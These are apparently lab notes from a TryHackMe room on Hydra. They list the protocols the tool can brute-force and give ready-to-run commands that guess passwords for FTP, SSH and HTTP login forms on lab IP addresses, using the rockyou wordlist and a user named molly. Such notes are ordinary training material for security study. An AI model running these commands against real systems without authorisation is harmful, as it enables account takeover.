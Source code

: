# THM - Hydra

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, 
FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, 
HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, 
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, 
Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

```shell
hydra -l user -P passlist.txt ftp://10.10.33.240

hydra -l <username> -P <full path to pass> 10.10.33.240 -t 4 ssh

hydra -l <username> -P <wordlist> 10.10.33.240 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


hydra -l molly -P ../../Materials/KaliWordlists/rockyou.txt 10.10.154.209 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

hydra -l molly -P ../../Materials/KaliWordlists/rockyou.txt 10.10.154.209 ssh

ssh molly@10.10.154.209	
```
